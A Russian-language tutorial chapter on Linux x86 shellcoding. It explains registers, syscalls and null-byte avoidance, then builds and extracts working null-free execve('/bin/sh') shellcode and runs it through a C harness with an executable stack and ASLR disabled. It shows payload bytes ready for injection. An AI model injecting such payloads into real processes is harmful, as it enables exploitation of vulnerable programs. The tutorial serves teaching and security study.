\newpage
\subsection{8. Shellcoding в Linux. Примеры}

﷽

{width="80%"}          

### Shellcode

Написание shellcode - это отличный способ узнать больше об языке ассемблера и о том, как программа взаимодействует с операционной системой.         

Почему специалисты Red Team и пентестеры пишут shellcode? Потому что в реальных сценариях shellcode может быть кодом, который внедряется в работающую программу, заставляя ее делать то, для чего она не была предназначена. Например, это может использоваться в атаках с переполнением буфера. Таким образом, shellcode обычно используется в качестве "полезной нагрузки" (payload) для эксплуатации уязвимостей.            

Почему "shellcode"? Исторически shellcode - это машинный код, который при выполнении порождает оболочку (shell).        

### Тестирование shellcode     

При тестировании shellcode удобно просто вставить его в программу и запустить. Программа на C ниже будет использоваться для тестирования всего нашего кода (`run.c`):           
```cpp
/*
run.c - небольшой каркас программы для выполнения shellcode
*/
// здесь будет байт-код
char code[] = "мой shellcode";

int main(int argc, char **argv) {
  int (*func)();             // указатель на функцию
  func = (int (*)()) code;   // func указывает на наш shellcode
  (int)(*func)();            // выполняем код в code[]
  // если программа вернула 0 вместо 1,
  // значит, shellcode сработал
  return 1;
}
```

Рекомендуется знание C и ассемблера. Также понимание работы стека — это большой плюс. Конечно, можно попытаться изучить эти темы из этого руководства, но лучше уделить время и изучить их из более детальных источников.

### Отключение ASLR

Address Space Layout Randomization (ASLR) - это функция безопасности, используемая в большинстве современных операционных систем. ASLR случайным образом распределяет адресное пространство процессов, включая стек, кучу и библиотеки. Это усложняет эксплуатацию уязвимостей. В Linux ASLR можно настроить через интерфейс `/proc/sys/kernel/randomize_va_space`.

Поддерживаются следующие значения:
* 0 - без рандомизации    
* 1 - консервативная рандомизация      
* 2 - полная рандомизация     

Чтобы отключить ASLR, выполните:
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Чтобы включить ASLR, выполните:
```bash
echo 2 > /proc/sys/kernel/randomize_va_space 
```


### немного ассемблера

Сначала повторим немного вводной информации, пожалуйста, наберитесь терпения.     

Набор регистров Intel x86:

    EAX, EBX, ECX и EDX - 32-битные регистры общего назначения.           
    AH, BH, CH и DH - доступ к старшим 16 битам регистров общего назначения.       
    AL, BL, CL и DL - доступ к младшим 8 битам регистров общего назначения.        
    EAX, AX, AH и AL называются "аккумуляторными" регистрами и могут использоваться 
    для доступа к портам ввода-вывода, арифметических операций, вызовов прерываний и т. д.  
    Эти регистры можно использовать для реализации системных вызовов.       
    EBX, BX, BH и BL - "базовые" регистры, используемые в качестве указателей 
    для доступа к памяти. Этот регистр также используется для хранения 
    указателей на аргументы системных вызовов и иногда для хранения 
    возвращаемого значения от прерывания.            
    ECX, CX, CH и CL - "счетные" регистры.          
    EDX, DX, DH и DL - "регистры данных", используемые для 
    доступа к портам ввода-вывода, арифметики и некоторых прерываний.              

Инструкции ассемблера. Некоторые важные инструкции в программировании на ассемблере:    

```nasm
mov  eax, 32       ; присвоение: eax = 32
xor  eax, eax      ; исключающее ИЛИ
push eax           ; поместить что-то в стек
pop  ebx           ; извлечь что-то из стека 
; (что было в стеке, сохранить в регистре/переменной)
call mysuperfunc   ; вызов функции
int  0x80          ; прерывание, команда ядра
```

Системные вызовы Linux. Системные вызовы - это API-интерфейсы между пространством пользователя и пространством ядра. Вы можете использовать системные вызовы Linux в своих ассемблерных программах. Для этого необходимо выполнить следующие шаги:

    Поместить номер системного вызова в регистр EAX.   
    Сохранить аргументы системного вызова в регистрах EBX, ECX и т. д.   
    Вызвать соответствующее прерывание (0x80).   
    Результат обычно возвращается в регистре EAX.   

Все системные вызовы x86 перечислены в файле `/usr/include/asm/unistd_32.h`.    

Пример, как libc оборачивает системные вызовы:     

```cpp
/*
exit0.c - for demonstrating 
how libc wraps syscalls
*/
#include <stdlib.h>

void main() {
  exit(0);
}
```

Давайте скомпилируем и дизассемблируем:

```bash
gcc -masm=intel -static -m32 -o exit0 exit0.c
gdb -q ./exit0
```

{width="80%"}    

`0xfc = exit_group()` and `0x1 = exit()`

### nullbytes

Прежде всего, хочу обратить ваше внимание на nullbytes.      
Давайте разберем простую программу:      
```cpp
/*
meow.c - демонстрация nullbytes
*/
#include <stdio.h>
int main(void) {
    printf ("=^..^= meow \x00 meow");
    return 0;
}
```

Компилируем и запускаем:
```bash
gcc -m32 -w -o meow meow.c
./meow
```

{width="80%"}  

Как видите, nullbyte `\x00` завершил цепочку инструкций. 

Эксплойты обычно атакуют код на C, и поэтому shellcode часто передается в виде строки, завершаемой символом NUL. Если shellcode содержит байты NUL, то C-код, подвергшийся атаке, может проигнорировать и отбросить оставшуюся часть кода, начиная с первого нулевого байта.   

Это касается только машинного кода. Если необходимо вызвать системный вызов с номером `0xb`, то, естественно, нужно поместить число `0xb` в регистр `EAX`, но при этом следует использовать только те формы машинного кода, которые не содержат нулевых байтов в самом коде.   

Теперь давайте скомпилируем и запустим два эквивалентных кода.         
Сначала `exit1.asm`:                   

```nasm
; just normal exit
; author @cocomelonc
; nasm -f elf32 -o exit1.o exit1.asm
; ld -m elf_i386 -o exit1 exit1.o && ./exit1
; 32-bit linux

section .data

section .bss

section .text
  global _start   ; must be declared for linker

; normal exit
_start:           ; linker entry point
  mov eax, 0      ; zero out eax
  mov eax, 1      ; sys_exit system call
  int 0x80        ; call sys_exit
```

Компилируем и исследуем `exit1.asm`:
```bash
nasm -f elf32 -o exit1.o exit1.asm
ld -m elf_i386 -o exit1 exit1.o
./exit1
objdump -M intel -d exit1
```

{width="80%"}      

Как видите, в машинном коде присутствуют нулевые байты.     

Теперь `exit2.asm`:             
```nasm
; обычный выход
; автор @cocomelonc
; nasm -f elf32 -o exit2.o exit2.asm
; ld -m elf_i386 -o exit2 exit2.o && ./exit2
; 32-битный Linux

section .data

section .bss

section .text
  global _start   ; точка входа для линковщика

; нормальный выход
_start:           ; точка входа
  xor eax, eax    ; обнуляем eax
  mov al, 1       ; системный вызов sys_exit (mov eax, 1) 
                  ; без нулевых байтов
  int 0x80        ; вызываем sys_exit
```

Компилируем и исследуем `exit2.asm`:
```bash
nasm -f elf32 -o exit2.o exit2.asm
ld -m elf_i386 -o exit2 exit2.o
./exit2
objdump -M intel -d exit2
```

{width="80%"}      

Как видите, в этом коде отсутствуют нулевые байты.       

Как я писал ранее, регистр EAX состоит из AX, AH и AL. AX используется для доступа к младшим 16 битам EAX. AL — для доступа к младшим 8 битам, а AH — к старшим 8 битам. Почему это важно при написании shellcode? Вспомните, почему нулевые байты — это плохо. Использование меньших частей регистра позволяет нам использовать `mov al, 0x1` и избежать появления нулевых байтов. Если бы мы использовали `mov eax, 0x1`, это привело бы к появлению нулевых байтов в нашем shellcode.         

Обе эти программы функционально эквивалентны.   

### пример 1. обычный выход

Начнем с самого простого примера. Используем наш код `exit.asm` в качестве первого примера для shellcoding (`example1.asm`):
```nasm
; обычный выход
; автор @cocomelonc
; nasm -f elf32 -o example1.o example1.asm
; ld -m elf_i386 -o example1 example1.o && ./example1
; 32-битный Linux

section .data

section .bss

section .text
  global _start   ; точка входа для линковщика

; нормальный выход
_start:           ; точка входа
  xor eax, eax    ; обнуляем eax
  mov al, 1       ; системный вызов sys_exit (mov eax, 1) 
                  ; без нулевых байтов
  int 0x80        ; вызываем sys_exit
```

Обратите внимание на трюк с `al` и `XOR`, который гарантирует, что в наш код не попадут NULL-байты.  

Извлекаем байт-код:        
```bash
nasm -f elf32 -o example1.o example1.asm
ld -m elf_i386 -o example1 example1.o
objdump -M intel -d example1
```

{width="80%"}    

Вот как это выглядит в шестнадцатеричном представлении.         

Итак, нужные нам байты - `31 c0 b0 01 cd 80`. Замените код в `run.c` следующим:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\xb0\x01\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

Теперь компилируем и запускаем:
```bash
gcc -z execstack -m32 -o run run.c
./run
echo $?
```

{width="80%"}    

> `-z execstack` отключает защиту NX, чтобы стек был исполняемым.

Наша программа вернула 0 вместо 1, значит, shellcode сработал.     

### Пример 2. Запуск оболочки Linux.

Теперь напишем простой shellcode, который порождает оболочку (`example2.asm`):       
```nasm
; example2.asm - запуск оболочки Linux.
; автор @cocomelonc
; nasm -f elf32 -o example2.o example2.asm
; ld -m elf_i386 -o example2 example2.o && ./example2
; 32-битный Linux

section .data
  msg: db '/bin/sh'

section .bss

section .text
  global _start   ; точка входа для линковщика

_start:           ; точка входа

  ; xoring любого значения с самим собой обнуляет его:
  xor eax, eax    ; обнуляем eax
  xor ebx, ebx    ; обнуляем ebx
  xor ecx, ecx    ; обнуляем ecx
  xor edx, edx    ; обнуляем edx

  mov al, 0xb     ; mov eax, 11: execve
  mov ebx, msg    ; загружаем указатель на строку в ebx
  int 0x80        ; системный вызов

  ; обычный выход
  mov al, 1       ; системный вызов sys_exit 
                  ; (mov eax, 1) без 
                  ; нулевых байтов
  xor ebx, ebx    ; без ошибок (mov ebx, 0)
  int 0x80        ; вызываем sys_exit
```

Для компиляции используем следующие команды:       
```bash
nasm -f elf32 -o example2.o example2.asm
ld -m elf_i386 -o example2 example2.o
./example2
```

{width="80%"}    

Как видите, наша программа запускает оболочку через `execve`:

{width="80%"}    

Примечание: `system("/bin/sh")` был бы гораздо проще, верно? Однако основная проблема этого подхода в том, что `system` всегда сбрасывает привилегии.

Итак, `execve` принимает 3 аргумента:
* Программа для выполнения - EBX
* Аргументы или `argv(null)` - ECX
* Окружение или `envp(null)` - EDX

Теперь запишем код без нулевых байтов, используя стек для хранения переменных (`example3.asm`):

```nasm
; запуск /bin/sh и нормальный выход
; автор @cocomelonc
; nasm -f elf32 -o example3.o example3.asm
; ld -m elf_i386 -o example3 example3.o && ./example3
; 32-битный Linux

section .bss

section .text
  global _start   ; точка входа для линковщика

_start:           ; точка входа

  ; xoring любого значения с самим собой обнуляет его:
  xor eax, eax    ; обнуляем eax
  xor ebx, ebx    ; обнуляем ebx
  xor ecx, ecx    ; обнуляем ecx
  xor edx, edx    ; обнуляем edx

  push eax        ; терминатор строки
  push 0x68732f6e ; "hs/n"
  push 0x69622f2f ; "ib//"
  mov ebx, esp    ; "//bin/sh",0 указатель на ESP
  mov al, 0xb     ; mov eax, 11: execve
  int 0x80        ; системный вызов
```

Теперь соберем код и проверим его работоспособность, а также убедимся, что он не содержит нулевых байтов:
```bash
nasm -f elf32 -o example3.o example3.asm
ld -m elf_i386 -o example3 example3.o
./example3
objdump -M intel -d example3
```

{width="80%"}    

Затем извлекаем байт-код с помощью небольшого bash-скрипта и `objdump`:
```bash
objdump -d ./example3|grep '[0-9a-f]:'|grep -v 'file'|cut \
-f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '| \
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | \
sed 's/^/"/'|sed 's/$/"/g'
```

{width="80%"}    

Наш shellcode:
```cpp
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e
\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\xb0\x0b\xcd\x80"
```

Затем заменяем код в `run.c` следующим:     
```cpp
/*
run.c - небольшой каркас программы для выполнения shellcode
*/
// вставляем наш байт-код
char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31"
"\xd2\x50\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // указатель на функцию
  func = (int (*)()) code;   // func указывает на наш shellcode
  (int)(*func)();            // выполняем код в code[]
  // если программа вернула 0 вместо 1,
  // значит, shellcode сработал
  return 1;
}
```

Компилируем и запускаем:
```bash
gcc -z execstack -m32 -o run run.c
./run
```

{width="80%"}    

Как видите, все работает отлично. Теперь этот shellcode можно использовать и внедрять в процессы.

В следующей части я создам shellcode для обратного TCP-соединения.

[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)              
[Shellcoding in Linux by exploit-db](https://www.exploit-db.com/docs/english/21013-shellcoding-in-linux.pdf)              
[my intro to x86 assembly](https://cocomelonc.github.io/tutorial/2021/10/03/malware-analysis-1.html)          
[my nasm tutorial](https://cocomelonc.github.io/tutorial/2021/10/08/malware-analysis-2.html)           
[execve](https://man7.org/linux/man-pages/man2/execve.2.html)         
[Source code in Github](https://github.com/cocomelonc/2021-10-09-linux-shellcoding-1)         
